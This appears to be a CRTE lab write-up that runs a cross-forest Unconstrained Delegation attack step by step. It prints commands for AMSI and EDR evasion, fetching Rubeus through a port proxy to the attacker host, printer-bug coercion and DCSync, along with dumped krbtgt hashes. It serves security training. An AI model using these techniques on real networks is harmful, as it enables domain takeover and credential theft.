






CRTE - Certified Red Team Expert
Cross Forest Attacks - Unconstrained Delegation
Cross-forest attacks leveraging Unconstrained Delegation present a powerful way to escalate privileges across trusted Active Directory forests.
Our focus is on understanding how this attack works, what conditions must be met, and how to execute it effectively in an offensive security context.
Unconstrained Delegation is an AD feature that allows a computer or service to impersonate any user that authenticates to it. This feature relies on Kerberos authentication, a protocol used extensively in Windows environments. When a user or service authenticates to a system with Unconstrained Delegation enabled, their Ticket Granting Ticket (TGT) is stored in the memory of the system they connect to. The system can then use this TGT to act on behalf of the user and access other services in the network. For example, if a user authenticates to a file server with Unconstrained Delegation enabled, the server can use the user’s TGT to impersonate the user and access other network resources.
To exploit this across a forest trust, we need to ensure that certain conditions are met. The most critical factor is the TGT Delegation setting on the trust between the forests. Historically, TGT delegation was enabled by default, but Microsoft changed this after vulnerabilities like the Printer Bug were discovered. However, if an environment has explicitly enabled TGT delegation for business reasons, it becomes a prime target for exploitation.
For this attack to succeed, we need:
- A compromised machine in our forest with Unconstrained Delegation enabled.
- The ability to force a domain controller (DC) from the target forest to authenticate to this machine.
- A trust relationship between the forests with TGT delegation enabled.
Once these conditions are met, we can exploit the delegation mechanism by tricking the domain controller from the target forest into authenticating to our compromised system. A common way to do this is by exploiting the Print Spooler service to force authentication. Once the DC connects, we extract its TGT, allowing us to impersonate it and escalate privileges.
The attack follows a simple sequence:
- We compromise a machine that has Unconstrained Delegation enabled in our forest.
- We force a domain controller from the target forest to connect to this machine (via Printer Bug, SMB authentication coercion, etc.).
- We extract the TGT of the domain controller from memory using tools like Rubeus.
- We use the stolen TGT to perform further attacks, such as a DCSync attack, to dump credentials, including the KRBTGT hash of the target forest.
Once we obtain the KRBTGT hash, we effectively control the target forest, as we can now forge Golden Tickets for persistence.
In a real-world scenario, we might see this attack play out in a setup where an external vendor (e.g., US-vendor.local) has a two-way trust with a corporate network (techcorp.local). If Unconstrained Delegation is enabled in the vendor’s network and TGT delegation is allowed across the trust, we can escalate our access from the vendor’s compromised machine to a domain controller in techcorp.local, ultimately leading to full domain compromise.
Detection of this attack can be difficult, but some red flags include:
- Machines with Unconstrained Delegation enabled in Active Directory.
- Unexpected authentication requests from domain controllers to machines they don’t typically interact with.
- Kerberos TGTs appearing on non-DC systems, which suggests delegation abuse.
The security impact of a successful cross-forest Unconstrained Delegation attack is severe. It allows us to compromise an entire external forest, pivot laterally, and escalate privileges far beyond the original foothold. Since TGTs are effectively the keys to the kingdom, controlling a domain controller’s TGT means we can authenticate as any user in that forest.
Mastering this attack requires an in-depth understanding of Kerberos delegation, TGT delegation settings, forest trust relationships, and how to coerce authentication from a DC. Once we can reliably trigger this authentication and extract TGTs, we have a direct path to privilege escalation across forests.
Enumerating Unconstrained Delegation with ADModule
Let’s start our Unconstrained Delegation with ADModule by executing InvisiShell to bypass PowerShell security features like system-wide transcription, Script Block Logging, AMSI and Constrained Language Mode(CLM).
RunWithRegistryNonAdmin.bat

After bypassing Powershell Security Features we can now import ADModule.
Import-Module Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dllImport-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1

We can now start enumerating Unconstrained Delegation. The command we will use, will enumerate if there’s any computer in our target domain with Unconstrained Delegation enabled.
Get-ADComputer -Filter {TrustedForDelegation -eq $True}

- DistinguishedName:
- This is the LDAP path to the computer object in Active Directory. It includes the organizational unit (OU) or container where the object resides, as well as the domain name. For example,
CN=US-DC,OU=Domain Controllers,DC=us,DC=techcorp,DC=localindicates that theUS-DCcomputer is in the "Domain Controllers" OU within theus.techcorp.localdomain. - DNSHostName:
- This is the fully qualified domain name (FQDN) of the computer in the AD domain. For example,
US-DC.us.techcorp.localrepresents the FQDN for theUS-DCcomputer. - Enabled:
- This indicates whether the computer account is active (True) or disabled (False). Both computers in your output are active since
Enabledis set toTrue. - Name:
- This is the NetBIOS name of the computer, such as
US-DCorUS-WEB. It's the shorter, non-FQDN identifier used within the domain. - ObjectClass:
- This indicates the type of object in Active Directory. In this case, the value is
computer, meaning the objects being queried are computer accounts. - ObjectGUID:
- This is the globally unique identifier (GUID) of the computer object in Active Directory. Every AD object has a unique GUID to distinguish it, regardless of its name or location.
- SamAccountName:
- This is the Security Account Manager (SAM) name of the computer object. By convention, it is the NetBIOS name of the computer followed by a
$sign, such asUS-DC$orUS-WEB$. The$sign indicates that it's a computer account, not a user account. - SID (Security Identifier):
- This is the unique security identifier assigned to the computer object in the domain. It is used to identify the object in access control lists (ACLs) and other security contexts.
- UserPrincipalName:
We can see above that we do have do have 2 computers in our target domain that have the flag TrustedForDelegation enabled.
In this case we have US-DC and US-WEB with Unconstrained Delegation configured. Since we were able to compromise the US-WEB host on the previous lab, we can explore Unconstrained Delegation on US-WEB host.
- This field is typically used for user accounts and contains the user’s logon name in email format (e.g.,
user@domain.com). For computer accounts, this field is often empty, as seen in your output.
Enumerating Inter-Forest trusts With PowerView
Let’s start by importing PowerView module using Import-Module command and enumerate the inter-realm trusts that we do have so far.
Import-Module .\PowerView.ps1
The following command will return a list of trusted forests and their details.
Get-NetForestTrust

We can see that there is a bidirectional trust between techcorp.local and usvendor.local. This means that authentication requests can flow in both directions, allowing users and services from one forest to authenticate in the other.
We can start by elevating our privilege as US-WEB using OverPass-The-Hash attack using webmaster’s AES256 with Rubeus.
User: webmaster
NTLM_Hash: 1d49d390ac01d568f0ee9be82bb74d4c
AES256: 2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0
Let’s start by encoding our Rubeus argument(asktgt) using ArgSplit.bat
ArgSplit.bat

After doing a Copy/Paste of the encoded argument we can run our Rubeus.exe in the memory using Loader.exe.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /user:webmaster /aes256:2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
We can see that our ticket has been successfully imported. Now that we do have elevated our as webmaster let’s use Find-PSRemotingLocalAdminAccess to find out if our user has Local Admin access on any machine inside our target domain.

We can see above that webmaster has local admin access inside US-WEB host.
I also tried to make the same enumeration using Find-LocalAdminAccess from PowerView module but I was not able to find the same result. Find-LocalAdminAccess did not bring US-Web as a valid host that webmaster has local Admin Access.
Import-Module .\PowerView.ps1

Key Differences
Find-PSRemotingLocalAdminAccess:- It specifically checks for local administrator access via PowerShell Remoting (WinRM).
- It requires WinRM to be enabled and properly configured on the target machines.
- If WinRM is blocked by a firewall or not enabled, the tool may not give accurate results or fail to connect.
Find-LocalAdminAccess(PowerView):
Let’s move on…
- It checks local administrator access based on LDAP enumeration.
- This method does not rely on WinRM but instead queries group membership via domain enumeration.
- If WinRM isn't working but LDAP data is accessible, this method may yield results that differ from
Find-PSRemotingLocalAdminAccess.
Mapping Shares to local system
Let’s start by Mapping shares from remote servers to our local system to allow seamless access to the target machine's files as if they were stored locally.
This is useful for tasks like transferring payloads, extracting sensitive data, or staging tools for further exploitation. We will use this approach to be able to transfer files to our target US-WEB.
Advantages:
- Convenience: It simplifies interaction with the target's file system, enabling easy copying, reading, or modification of files.
- Efficiency: File transfers and tool deployments are faster and more straightforward compared to manual uploads or downloads.
- Persistence: The mapped drive can remain accessible for the session, allowing continuous interaction without repeatedly authenticating.
- Stealth: Uses built-in Windows functionality, making the activity less suspicious to some monitoring tools.
> **Note: If your mapping does not work on the one-liner passing the password on it, it’s probably due to special characters on the credential and you may get error Password i not correct.
To bypass this, you can simply do the whole mapping command and put the password after it is asked.**
net use x: \\US-WEB\C$\Users\Public\

Let’s now copy out .Net loader into our target host, we will be using this to run Rubeus in monitor mode in the memory.
echo F | XCOPY C:\AD\Tools\Loader.exe x:Loader.exe

We were able to Copy our .Net loader into the target machine. We can now delete our mapped driver x created earlier.
net use x: /delete

PortForwarding to bypass EDR
To avoid being caught by any defensive mechanism, we can simply create a PortForwarding on the target machine then call SafetyKatz using it’s localhost IP.
winrs -r:US-WEB cmdnetsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=192.168.100.163

1. netsh interface portproxy add v4tov4:
netsh interface portproxy: This is the part of thenetshutility that deals with port forwarding. It allows forwarding TCP traffic from one IP/port combination to another.add: Specifies that you're adding a new forwarding rule.v4tov4: Indicates that both the listening and connecting addresses use IPv4.
2. listenport=8080:
- The port on the local machine (target machine) where the service will "listen" for incoming connections.
- In this case, the machine will listen on port
8080.
3. listenaddress=127.0.0.1:
- The IP address on the local machine where the service will listen for connections.
0.0.0.0means it will listen on all network interfaces available on the machine (e.g., public, private, or loopback IPs).
4. connectport=80:
- The port on the remote machine (Out Attacking Machine) to which traffic will be forwarded.
- In this case, port
80(commonly used for HTTP).
5. connectaddress=192.168.100.163:
- The IP address of the remote machine (Our Attacking Machine).
This port forwarding setup redirects traffic received on port 8080 from our compromised machine to port 80 on our attacking macchine (192.168.100.163), which acts as a bridge.
We can check this portforwarding with the following command:
nesh interface portproxy show all

Disabling Defender
Before we carry on with the extraction of the LSASS credentials on our target host, we need to disable our firewall on our side. This way we can host the file on our machine with no issues, without having the firewall complaining.

I’m also hosting the Rubeus.exe file in my attacking machine using the HFS.exe software, but this could also be achieved with any other tools like python3 for example.
For this next step, I need to encode the argument that will be passed to Rubeus.exe, specifically the monitor command, which I will use to run Rubeus from memory. Instead of passing the argument in plaintext, I am using ArgSplit.bat to obfuscate it.
ArgSplit.bat works by breaking down and encoding the command using environment variable substitutions in Windows batch scripting. Each letter of the argument is assigned a variable, which is later reconstructed when the batch script executes. This technique helps evade detection by security solutions such as Microsoft Defender for Endpoint (MDE) and other Endpoint Detection and Response (EDR) tools, which often flag direct execution of known malicious commands.
ArgSplit.bat

Let’s now put Rubeus in monitor mode targeting usvendor-dc$ machine our eu.local
> NOTE: Make sure that you use the DC name like usvendor-dc$ instead of full name like this usvendor-dc.usvendor.local. I tested many times and Coerce did not work,.
Probably because we are dealing with an Inter-realm TGT Delegation.
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /targetuser:usvendor-dc$ /interval:5 /nowrap

Our next step is to initiate the forced authentication of usvendor-dc.usvendor.local (the domain controller on usvendor.local) to my target machine US-WEB, which has Unconstrained Delegation enabled. To achieve this, I used MS-RPRN.exe, a tool that exploits the Print Spooler Bug (MS-RPRN coercion) to trick the domain controller into authenticating to my machine target machine (US-WEB).
C:\AD\Tools\MS-RPRN.exe \\usvendor-dc.usvendor.local \\us-web.us.techcorp.local

If we get back to our Rubeus in monitor mode, we will see that now we got a new TGT and it’s from usvendor-dc$ host.

This proves that Unconstrained Delegation worked exactly as expected. The moment usvendor-dc$ was coerced into authenticating to my target system, its TGT was cached, allowing me to extract it. Now that I have the Base64-encoded ticket.
Back to our attacking machine, we will quickly use ArgSplit.bat to encode our Rubeus.exe arguement (ptt) and simply do the copy/paste into our CMD session as we always do.
ArgSplit.bat

we can move forward to the final step by importing the TGT into my session using Rubeus.
Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /ticket:

By injecting the usvendor-dc$ ticket into my current session, I will be able to impersonate the domain controller, giving me access to privileged domain operations.
The best way to fully compromise the Active Directory domain at this point is to execute a DCSync attack. With DCSync, I can request and retrieve password hashes for any account, including high-privileged users and even the KRBTGT account, which is the most critical account in any AD environment.
If we check with klist command we can see the ticket imported.
klist

DCSync Attack
Executing DCSync allowed us to retrieve the KRBTGT account hashes, including NTLM and AES encryption keys. These hashes are the most valuable credentials in an Active Directory environment, as they allow me to generate Golden Tickets, which provide persistent and unlimited access to the domain.
Before running the attack, I obfuscated the argument lsadump::dcsync using ArgSplit.bat to evade detection, ensuring that security solutions do not immediately flag my command execution.
lsadump::dcsync

This final step proves the core concept behind Unconstrained Delegation exploitation, simply compromising a machine with this misconfiguration does not automatically lead to full domain compromise. Instead, the key to success lies in coercing a privileged account, such as the domain controller (usvendor$), to authenticate to the compromised machine with Unconstrained Delegation. Once that happens, the TGT of the privileged account is cached in memory, allowing for extraction and full domain takeover.
`C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:us\krbtgt" "exit”bash
mimikatz(commandline) # lsadump::dcsync /user:usvendor\krbtgt /domain:usvendor.local
[DC] 'usvendor.local' will be the domain
[DC] 'USVendor-DC.usvendor.local' will be the DC server
[DC] 'usvendor\krbtgt' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN : krbtgt
SAM ACCOUNT
SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 7/12/2019 9:09:18 PM
Object Security ID : S-1-5-21-2028025102-2511683425-2951839092-502
Object Relative ID : 502
Credentials:
Hash NTLM: 335caf1a29240a5dd318f79b6deaf03f
ntlm- 0: 335caf1a29240a5dd318f79b6deaf03f
lm - 0: f3e8466294404a3eef79097e975bda3b
Supplemental Credentials:
Primary:NTLM-Strong-NTOWF
Random Value : 11d7fc894b21e11d24a81c7870eb8aae
Primary:Kerberos-Newer-Keys
Default Salt : USVENDOR.LOCALkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac (4096) : 2b0b8bf77286337369f38d1d72d3705fda18496989ab1133b401821684127a79
aes128_hmac (4096) : 71995c47735a10ea4a107bfe2bf38cb6
des_cbc_md5 (4096) : 982c3125f116b901
Primary:Kerberos
Default Salt : USVENDOR.LOCALkrbtgt
Credentials
des_cbc_md5 : 982c3125f116b901
Packages
NTLM-Strong-NTOWF
Primary:WDigest
01 99585c6025e58e1ac33c85f8a9ff8d18
02 c8dd05c8afc5d2b401e42ee135e7322f
03 b8ada0a86cd88445cea44dc839be89e2
04 99585c6025e58e1ac33c85f8a9ff8d18
05 c8dd05c8afc5d2b401e42ee135e7322f
06 f1a9058fe1f96297d9358a6ee70f3d0a
07 99585c6025e58e1ac33c85f8a9ff8d18
08 3e9f24f6600eb0613abf6a827e1579b4
09 3e9f24f6600eb0613abf6a827e1579b4
10 b31d574308dfbfc7359959269c9e062f
11 1e1b957757cfb97ea2cb6abaa00d37e4
12 3e9f24f6600eb0613abf6a827e1579b4
13 4c60e3254aa38c7eab2cc87ee5936665
14 1e1b957757cfb97ea2cb6abaa00d37e4
15 35105693dc1e8604a2e6d83fc4df54d5
16 35105693dc1e8604a2e6d83fc4df54d5
17 ce56ccf6a0d06664c7283ba6ab6f45b5
18 d6724265605922c57a12aae62411cddf
19 398eadef9fd48e9dd8574597d99a5e1e
20 50bcfec6ba9dd547d848b6795597fc66
21 5415bba00be1f4d402e290b87a5dc0a4
22 5415bba00be1f4d402e290b87a5dc0a4
23 040c18e4aa28bb2aeca69502bd1ce9da
24 fdd7b9a41f5392c5850c447dc26524a5
25 fdd7b9a41f5392c5850c447dc26524a5
26 3e58897c36a6045ceda494ecf08da9d9
27 689dca94f881ecba2ce4a13a1c9d2a26
28 0864b3b7df08ba05d95c877570a62ef7
29 7daa8ba2616ae1f75d9a7e9fe6cddc17
mimikatz(commandline) # exit
`
This way we were able to abuse the inter-realm Trust by abusing Unconstrained Delegation.
We should also check the inter-realm trust attributes.
Get-NetForestTrust | Select-Object SourceName, TargetName, TrustAttributes

- If
TrustAttributescontains 0x800, then TGT Delegation is enabled. - If it is absent, then it is not enabled, and the attack is not possible.